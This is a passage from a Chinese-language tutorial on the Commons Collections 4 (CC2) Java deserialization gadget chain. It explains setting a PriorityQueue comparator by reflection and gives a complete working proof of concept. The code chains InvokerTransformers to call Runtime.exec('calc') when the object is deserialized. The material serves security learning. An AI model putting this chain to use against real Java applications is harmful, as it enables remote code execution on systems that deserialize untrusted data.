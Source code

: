 这样comparator就为空了

不过我们还是要设置comparator的值为TransformingComparator对象,不然反序列化的时候调用compare方法的时候无法触发TransformingComparator里面的compare方法

所以这里先不设置comparator的值,在添加元素后size>=2了，再通过反射去设置comparator的值

```
Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
field.setAccessible(true);
field.set(queue,comparator);
```

## 漏洞复现

经过上面的分析,最后完整的POC如下

```
package CC2;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class Payload {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chain = new ChainedTransformer(transformers);
        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue = new PriorityQueue(1);

        queue.add(1);
        queue.add(2);

        Field field = Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("cc2.bin"));
        os.writeObject(queue);

        ObjectInputStream fos = new ObjectInputStream(new FileInputStream("cc2.bin"));
        fos.readObject();
    }
}

```
